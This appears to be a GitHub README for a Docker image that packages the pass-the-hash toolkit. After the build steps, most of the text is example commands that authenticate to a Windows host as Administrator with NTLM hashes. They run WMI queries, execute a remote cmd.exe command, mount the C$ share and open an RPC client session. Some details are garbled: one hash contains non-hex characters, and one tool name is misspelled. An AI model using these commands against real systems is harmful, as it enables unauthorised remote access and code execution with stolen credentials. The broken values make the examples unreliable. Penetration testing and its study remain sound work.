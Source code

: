 # pth-toolkit docker

This docker build comes from the frustrating attempts
to run the pass-the-hash toolkit with libreadline6 and
python2 without messing up the system.

You can build your pth-toolkit docker image by executing:
```sh
git clone https://github.com/gnebbia/pth-toolkit-docker
cd pth-toolkit-docker
docker build -t gnc/pth-toolkit .
```

Once the image is created we can launch any pth-tool by doing:
```sh
docker run -it --rm gnc/pth-toolkit pth-smbclient $arg1 $arg2 
```

The list of launchable executables is:

- pth-net
- pth-rpcclient
- pth-smbclient
- pth-smbget
- pth-winexe
- pth-wmic
- pth-wmis

# How to pass the hash with the pth-toolkit: Examples

## Execute WMI queries
```sh
docker run -it --rm gnc/pth-toolkit \
pth-wmic -U WORKGROUP/Administrator%aad3b435b51407eeaberb435b51404ee:D162E311D3F450A7FF2571BB59FBEDE5 \
//192.168.1.25 "select Name from Win32_UserAccount"
```

## Execute WMI commands
```sh
docker run -it --rm gnc/pth-toolkit \
pth-wims -U WORKGROUP/Administrator%aad3b435b51807eeaad3b435b51404ee:D292E311D3F450A7FF2571BB89FAEDE5 \
//192.168.1.25 "cmd.exe /c whoami > c:\temp\result.txt"
```

## Connect with SMB shares
```sh
docker run -it --rm gnc/pth-toolkit \
pth-smbclient -U WORKGROUP/Administrator%abd3b485b51404eeaad3b435b51404ee:A052E311D3F450AAFFA571AB59FBEDE5 \
//192.168.1.25/c$
```

## Connect with an SMB shell
```sh
docker run -it --rm gnc/pth-toolkit \
pth-rpcclient -U WORKGROUP/Administrator%ba282037831412aeaad3b435b51404ee:CAF2A311DAF450AAB26571BB59FBEDE5 //192.168.1.25
```
